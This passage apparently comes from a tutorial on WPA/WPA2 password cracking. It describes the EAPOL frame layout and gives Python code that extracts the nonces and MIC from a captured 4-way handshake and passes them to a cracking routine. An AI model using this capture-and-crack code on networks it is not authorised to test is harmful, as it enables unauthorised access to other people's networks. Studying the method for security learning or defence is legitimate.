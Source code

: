 - 1 byte: version
- 1 byte: EAPol frame type
- 2 bytes: body length
- 1 byte: key type
- 2 bytes: key info
- 2 bytes: key length
- 8 bytes: replay counter
- 32 bytes: nonce
- 16 bytes: key iv
- 8 bytes: key rsc
- 8 bytes: key id
- 16 bytes: key message integrity code
- 2 bytes: WPA key length (n)
- n bytes: WPA key

In order to try to compute with WiFi password, four values need to be obtained
from the handshake messages:

- the nonce in the first message
- the nonce in the second message
- the MIC from the fourth message
- the whole EAPol frame from the fourth message, with the MIC field replaced by
zeroes

The access point MAC address and the connecting device MAC address that were
saved at the beginning of this step are passed to a function along with these
four values that does the actual computation of the WiFi password.

```Python
association_init: #Association initiated, look for 4-way handshake
    if frame_ctl == HANDSHAKE_AP_FRAME or frame_ctl == HANDSHAKE_STA_FRAME:
        handshake_counter += 1
        print('Received handshake {} of 4'.format(handshake_counter))

        eapol_frame = payload[4:] #remove link layer

        version = eapol_frame[0]
        eapol_frame_type = eapol_frame[1]
        body_length = eapol_frame[2:4]
        key_type = eapol_frame[4]
        key_info = eapol_frame[5:7]
        key_length = eapol_frame[7:9]
        replay_counter = eapol_frame[9:17]
        nonce = eapol_frame[17:49]
        key_iv = eapol_frame[49:65]
        key_rsc = eapol_frame[65:73]
        key_id = eapol_frame[73:81]
        mic = eapol_frame[81:97]
        wpa_key_length = eapol_frame[97:99]
        wpa_key = eapol_frame[99:]

        if handshake_counter == 1 and frame_ctl == HANDSHAKE_AP_FRAME:
            ap_nonce = nonce
        elif handshake_counter == 2 and frame_ctl == HANDSHAKE_STA_FRAME:
            sta_nonce = nonce
        elif handshake_counter == 3 and frame_ctl == HANDSHAKE_AP_FRAME:
            continue
        elif handshake_counter == 4 and frame_ctl == HANDSHAKE_STA_FRAME:
            eapol_frame_zeroed_mic = b''.join([
                eapol_frame[:81],
                b'\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0',
                eapol_frame[97:99]
            ])

            print('Attempting to find password...')
            crack_wpa(ap_mac, sta_mac, ap_nonce, sta_nonce, eapol_frame_zeroed_mic, mic)
```

[1]: https://curiouswaves.blog/2017/10/29/breaking-down-802-11-frame/
[2]: http://www.og150.com/assets/Wireless%20Pre-Shared%20Key%20Cracking%20WPA,%20WPA2.pdf
[3]: https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work